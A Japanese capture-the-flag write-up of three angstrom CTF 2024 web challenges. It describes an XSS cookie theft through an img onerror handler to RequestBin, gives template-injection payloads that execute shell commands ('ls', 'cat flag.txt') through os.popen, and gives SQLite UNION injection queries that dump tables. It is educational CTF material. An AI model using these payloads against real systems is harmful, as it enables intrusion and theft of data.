# angstrom CTF 2024 Writeup

とりあえずWebの一部だけ。

## markdown (80pts.)

以下のようなWebページ。  
submitすると入力した内容が含まれたページが生成される。




また管理者ユーザのアクセスを再現するAdminBotページも用意されている。


ソースは与えられている。
```
const crypto = require('crypto')

const express = require('express')
const app = express()

const posts = new Map()

app.use(express.urlencoded({ extended: false }))

app.get('/', (_req, res) => {
    const placeholder = [
        '# Note title',
        'Content of the note. You can use *italics*!',
    ].join('\n')

    res.type('text/html').end(`
        <link rel="stylesheet" href="/style.css">
        <div class="content">
            <h1>Pastebin</h1>
            <form action="/create" method="POST">
                <textarea name="content">${placeholder}</textarea>
                <button type="submit">Create</button>
            </form>
        </div>
    `)
})

app.get('/flag', (req, res) => {
    const cookie = req.headers.cookie ?? ''
    res.type('text/plain').end(
        cookie.includes(process.env.TOKEN)
        ? process.env.FLAG
        : 'no flag for you'
    )
})

app.get('/view/:id', (_req, res) => {
    const marked = (
        'https://cdnjs.cloudflare.com/ajax/libs/marked/4.2.2/marked.min.js'
    )

    res.type('text/html').end(`
        <link rel="stylesheet" href="/style.css">
        <div class="content">
        </div>
        <script src="${marked}"></script>
        <script>
            const content = document.querySelector('.content')
            const id = document.location.pathname.split('/').pop()

            delete (async () => {
                const response = await fetch(\`/content/\${id}\`)
                const text = await response.text()
                content.innerHTML = marked.parse(text)
            })()
        </script>
    `)
})

app.post('/create', (req, res) => {
    const data = req.body.content ?? ''
    const id = crypto.randomBytes(8).toString('hex')
    posts.set(id, data)
    res.redirect(`/view/${id}`)
})

app.get('/content/:id', (req, res) => {
    const id = req.params.id
    const data = posts.get(id) ?? ''
    res.type('text/plain').end(data)
})

app.get('/style.css', (_req, res) => {
    res.type('text/css').end(`
        * {
          font-family: system-ui, -apple-system, BlinkMacSystemFont,
            'Segoe UI', Roboto, 'Helvetica Neue', sans-serif;
          box-sizing: border-box;
        }

        html,
        body {
          margin: 0;
        }

        .content {
          padding: 2rem;
          width: 90%;
          max-width: 900px;
          margin: auto;
        }

        input:not([type='submit']) {
          width: 100%;
          padding: 8px;
          margin: 8px 0;
        }

        textarea {
          width: 100%;
          padding: 8px;
          margin: 8px 0;
          resize: vertical;
          font-family: monospace;
        }

        input[type='submit'] {
          margin-bottom: 16px;
        }


    `)
})

app.listen(3000)
```

ソースコードから`/flag`にアクセスした際に、cookieに正しい値を持っていればflagが表示されることがわかる。

したがって、AdminBotからアクセスさせた際にcookie値を送信させるようにするページを作成する。  
imgタグで存在しないsrcを指定してonerror属性にcookie値を送る処理を書く。  
送信先はRequestBinを使う。

```

```

生成したページへAdminBotでアクセスさせるとcookie値がとれた。



cookieにこの値を設定し、`/flag`へアクセスするとflagが表示された。


<hr>

## winds (100pts.)

以下のようなWebページ。  
submitすると入力した文字列が入れ替わった内容が含まれたページが生成される。




ソースコードは与えられている。

```
import random

from flask import Flask, redirect, render_template_string, request

app = Flask(__name__)

@app.get('/')
def root():
    return render_template_string('''
        <link rel="stylesheet" href="/style.css">
        <div class="content">
            <h1>The windy hills</h1>
            <form action="/shout" method="POST">
                <input type="text" name="text" placeholder="Hello!">
                <input type="submit" value="Shout your message...">
            </form>
            <div style="color: red;">{{ error }}</div>
        </div>
    ''', error=request.args.get('error', ''))

@app.post('/shout')
def shout():
    text = request.form.get('text', '')
    if not text:
        return redirect('/?error=No message provided...')

    random.seed(0)
    jumbled = list(text)
    random.shuffle(jumbled)
    jumbled = ''.join(jumbled)

    return render_template_string('''
        <link rel="stylesheet" href="/style.css">
        <div class="content">
            <h1>The windy hills</h1>
            <form action="/shout" method="POST">
                <input type="text" name="text" placeholder="Hello!">
                <input type="submit" value="Shout your message...">
            </form>
            <div style="color: red;">{{ error }}</div>
            <div>
                Your voice echoes back: %s
            </div>
        </div>
    ''' % jumbled, error=request.args.get('error', ''))

@app.get('/style.css')
def style():
    return '''
        html, body { margin: 0 }
        .content {
            padding: 2rem;
            width: 90%;
            max-width: 900px;
            margin: auto;
            font-family: Helvetica, sans-serif;
            display: flex;
            flex-direction: column;
            gap: 1rem;
        }
    '''
```

ソースコードから、`/shout`の入力した文字列がランダムな順序で表示される部分に変数などを出力させることができることがわかる。  
例えば`{​{config}}`で設定情報を出力させられる。  
入力した文字列はランダムな順序で出力されるが、`random.seed(0)`でシード値がわかっているため  
出力したい文字列から必要な入力を逆算することができる。  

コードは拾ったやつ。

```
import random

def shuffle_with_seed(ls, seed):
  random.seed(seed)
  random.shuffle(ls)
  return ls

def unshuffle_with_seed(shuffled_ls, seed):
  n = len(shuffled_ls)
  perm = [i for i in range(1, n + 1)]
  shuffled_perm = shuffle_with_seed(perm, seed)
  ls = list(zip(shuffled_ls, shuffled_perm))
  ls.sort(key=lambda x: x[1])
  return [a for (a, b) in ls]
```

`gcinfo}{​{}`と入力すると`{​{config}}`と出力される。



`{​{config}}`ではflagに関する情報はなかった。

リモートコード実行を試してみる。とりあえずlsしてみる。

```
{​{request.application.__globals__.__builtins__.__import__('os').popen('ls -lah').read()}}
```
になるように、以下を入力。
```
iispb)t{​{paus(_iol(qsl)n_.ehtr_tl(c_-irn'tooe)_.a}peb}_lm.sip.a_ad_.'poge_' u's_l.la_r_on
```



同じディレクトリ内に`flag.txt`があることがわかったので、中身を表示する。
```
{​{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```
になるように、以下を入力。
```
_ir'i)i{​{cnua.isot tn__taopt)le_l(__.artos'uo)rep}me.}.psqbl(.a_xd'pf_ibn.'taallgg_pe.c(__sto_
```

flagが得られた。



<hr>

## store (100pts.)

以下のようなWebページ。
検索機能を持ったページのようだが、適当に検索してもなにもでてこない。



js内に検証処理があるため、submitはコンソールから行う。
```
document.getElementsByTagName('form')[0].submit();
```

とりあえず以下入力してsubmitするとデータヒットする。元のクエリ内になんかヒットしないような条件が入っている模様。
```
' or 1=1; -- 
```


また以下sqliteの関数を使用しても通るため、DBがsqliteとわかる。
```
' or last_insert_rowid()=last_insert_rowid()
```

カラム数を特定するために`union all`で以下クエリでカラム数を変えながらsubmitするがエラー。
```
' union all select null, null, null; -- 
```
サーバ側になんらかの検証処理があると仮定する。カンマを使わない形で再度カラム数を変えながらsubmitしていくと3つでヒット。
```
' or 1=1 UNION SELECT * FROM (SELECT sqlite_version()) AS a JOIN (SELECT 'hoge') AS b JOIN (SELECT 'fuga') AS c; -- 
```


あとはテーブル名と構成をとるとflagを含んだテーブルがあった。
```
' or 1=1 union select * from (select null) as a join (select name from sqlite_master) as b join (select sql from sqlite_master) as c; -- 
```


```
' or 1=1 union select * from (select null) as a join (select flag from flags91b3e66b04879149597e8a26b489192a) as b join (select sql from sqlite_master) as c; -- 
```


